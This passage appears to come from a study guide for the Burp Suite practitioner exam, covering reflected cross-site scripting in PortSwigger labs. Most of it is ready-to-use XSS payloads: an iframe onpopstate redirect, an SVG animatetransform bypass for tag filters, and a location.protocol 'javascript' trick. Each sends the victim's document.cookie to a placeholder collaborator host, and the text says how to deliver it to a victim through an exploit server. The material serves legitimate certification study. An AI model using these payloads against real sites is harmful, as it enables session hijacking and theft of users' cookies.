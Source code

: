 ```js
<iframe onload="if(!window.flag){this.contentWindow.location='https://TARGET.net?search=<body onpopstate=document.location=`http://OASTIFY.COM/?`+document.cookie>#';flag=1}" src="https://TARGET.net?search=<body onpopstate=document.location=`http://OASTIFY.COM/?`+document.cookie>"></iframe>
```

### Bypass Blocked Tags
> Application controls give message, _**"Tag is not allowed"**_ when inserting basic XSS payloads, but discover SVG mark-up allowed using above [methodology](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study?tab=readme-ov-file#identify-allowed-tags). This payload steal my own session cookie as POC.

```html
https://TARGET.net/?search=%22%3E%3Csvg%3E%3Canimatetransform%20onbegin%3Ddocument.location%3D%27https%3A%2F%2FOASTIFY.COM%2F%3Fcookies%3D%27%2Bdocument.cookie%3B%3E
```

> Place the above payload on exploit server and insert URL with search value into an `iframe` before delivering to victim in below code block.

```html
<iframe src="https://TARGET.net/?search=%22%3E%3Csvg%3E%3Canimatetransform%20onbegin%3Ddocument.location%3D%27https%3A%2F%2FOASTIFY.COM%2F%3Fcookies%3D%27%2Bdocument.cookie%3B%3E">
</iframe>
```

[![svg animatetransform XSS](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/raw/main/images/svg-animatetransform-xss.png)](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/blob/main/images/svg-animatetransform-xss.png)

[PortSwigger Lab: Reflected XSS with some SVG markup allowed](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-some-svg-markup-allowed)

### XSS Assign protocol

> Lab to test XSS into HTML context with nothing encoded in search function. Using this lab to test the **Assignable protocol with location** `javascript` exploit _**identified**_ by [PortSwigger XSS research](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#assignable-protocol-with-location). In the payload is the `%0a` representing the ASCII newline character.

```html
<script>location.protocol='javascript';</script>#%0adocument.location='http://OASTIFY.COM/?p='+document.cookie//&context=html
```

[![XSS protocol location](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/raw/main/images/xss-protocol-location.png)](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/blob/main/images/xss-protocol-location.png)

[PortSwigger Lab: Reflected XSS into HTML context with nothing encoded](https://portswigger.net/web-security/cross-site-scripting/reflected/lab-html-context-nothing-encoded)

### Custom Tags not Blocked

> Application respond with message _**"Tag is not allowed"**_ when attempting to insert XSS payloads, but if we create a custom tag it is bypassed.

